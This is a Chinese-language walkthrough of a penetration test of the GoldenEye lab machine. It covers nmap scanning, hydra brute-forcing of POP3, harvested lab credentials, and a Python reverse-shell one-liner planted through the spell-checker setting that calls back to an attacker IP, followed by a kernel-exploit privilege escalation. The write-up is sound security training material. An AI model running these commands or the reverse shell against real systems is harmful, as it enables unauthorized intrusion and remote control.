

# 记一次对GoldenEye的渗透 - 先知社区

记一次对GoldenEye的渗透

- - -

# 一、信息收集

1.arp-scan-l 收集目标ip

[](https://xzfile.aliyuncs.com/media/upload/picture/20240108175146-8965e478-ae0b-1.png)

2.使用命令：nmap -sP 192.168.182.0/24

[](https://xzfile.aliyuncs.com/media/upload/picture/20240108175200-917fa932-ae0b-1.png)

3.使用命令：nmap -sS -sV -T5 -A -p- 192.168.182.141

[](https://xzfile.aliyuncs.com/media/upload/picture/20240108175217-9b9990d6-ae0b-1.png)

4.到/sev-home/目录中。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240108175226-a0ec640a-ae0b-1.png)

5.检查主页的html内容以获取任何有用的提示（F12查看）

[](https://xzfile.aliyuncs.com/media/upload/picture/20240108175240-a9709d1c-ae0b-1.png)

6.发现了一个用户名和密码，然后发现了一个编码加密

[](https://xzfile.aliyuncs.com/media/upload/picture/20240108175251-b0217618-ae0b-1.png)

7，使用burp解密模块解密。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240108175301-b5b52070-ae0b-1.png)

8.然后登录  
Natalya  
Boris

Natalya  
InvincibleHack3r

[](https://xzfile.aliyuncs.com/media/upload/picture/20240108175321-c1fb59ee-ae0b-1.png)

9.然后使用f12查看，发现了pop3服务。POP3服务器的端口：55006、55007。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240108175332-c8810e76-ae0b-1.png)

10.浏览器上访问发现是55007端口。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240108175402-da3d0dea-ae0b-1.png)

11.开始生成字典，开始爆破密码。  
hydra -L t1t.txt -P /usr/share/wordlists/fasttrack.txt 192.168.182.141 -s 55007 pop3

[](https://xzfile.aliyuncs.com/media/upload/picture/20240108175412-e041ce9c-ae0b-1.png)

12.开始使用nc连接，用户：boris 密码：secret1! 用户：natalya 密码：bird  
然后开始读邮件

[](https://xzfile.aliyuncs.com/media/upload/picture/20240108175423-e687a3c6-ae0b-1.png)

13.使用，用户：natalya 密码：bird，开始都邮件。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240108175432-ec2086d6-ae0b-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240108175442-f1d5fff2-ae0b-1.png)

14.找到了敏感信息泄露

[](https://xzfile.aliyuncs.com/media/upload/picture/20240108175452-f816acea-ae0b-1.png)

15.进入/etc/hosts目录，加入severnaya-station.com

```plain
用户名：xenia
密码：RCP90rulez!
域：severnaya-station.com
网址：severnaya-station.com/gnocertdir
```

我们现根据邮件提示添加本地域名：severnaya-station.com

[](https://xzfile.aliyuncs.com/media/upload/picture/20240108175509-0259b59e-ae0c-1.png)

16.本地访问。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240108175520-08c40a1a-ae0c-1.png)

17登录之后，发现一个doak用户

[](https://xzfile.aliyuncs.com/media/upload/picture/20240108175529-0e38b194-ae0c-1.png)

18.加入字典

[](https://xzfile.aliyuncs.com/media/upload/picture/20240108175538-1368f52a-ae0c-1.png)

19.开始爆破

成功登录  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240108175552-1bed7f04-ae0c-1.png)  
username: dr\_doak  
password: 4England!  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240108181154-5944d3c8-ae0e-1.png)  
登录之后，发现有一个图片

[](https://xzfile.aliyuncs.com/media/upload/picture/20240108181257-7eac8f8e-ae0e-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240108181136-4eb1aac6-ae0e-1.png)

然后下载到本地。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240108181308-856720a0-ae0e-1.png)  
进行图片检查  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240108181409-a98d7d3a-ae0e-1.png)  
发现存在base64加密的编码  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240108181423-b1d375a8-ae0e-1.png)  
解密之后，成功获得管理员用户密码.  
xWinter1995x!

## 二、漏洞利用

[](https://xzfile.aliyuncs.com/media/upload/picture/20240108181431-b6c068d2-ae0e-1.png)  
接着使用账号密码进行登录。发现其框架和版本。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240108181521-d4550470-ae0e-1.png)  
使用google搜索历史漏洞  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240108181528-d89267e4-ae0e-1.png)  
使用msf进行搜索exp  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240108181555-e8b2c240-ae0e-1.png)  
设置payload

设置用户名：admin  
设置密码：xWinter1995x！  
xWinter1995x！  
设置：rhosts severnaya-station.com  
设置：targeturi / gnocertdir  
设置payload：cmd / unix / reverse  
设置：lhost 192.168.1.45  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240108181603-edf1d020-ae0e-1.png)  
利用之后，没有成功。接着发现有上传漏洞  
更改编辑器模式为googlshhell  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240108181614-f4596ef0-ae0e-1.png)  
添加反弹shell的payload

[](https://xzfile.aliyuncs.com/media/upload/picture/20240108181623-f975ed00-ae0e-1.png)

```plain
python -c ‘import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((“192.168.119.128”,6666));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

然后新建一个邮件，来触发漏洞  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240108181632-fea84ab6-ae0e-1.png)

成功反弹shell。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240108181644-063050da-ae0f-1.png)

## 三、权限提升

接着使用uname -a 来查看linux版本  
使用msf搜索可利用的exp  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240108181651-0a745a60-ae0f-1.png)  
下载到本地  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240108181659-0f0d65bc-ae0f-1.png)  
将exp上传到远程服务器  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240108181709-14f41b4c-ae0f-1.png)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240108181716-191439a0-ae0f-1.png)  
使用cc进行编译脚本  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240108181723-1d246222-ae0f-1.png)  
开启http监听  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240108181729-20d50142-ae0f-1.png)  
添加执行权限并执行exp脚本  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240108181736-2550843a-ae0f-1.png)  
成功获取root文件  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240108181744-29f0614a-ae0f-1.png)
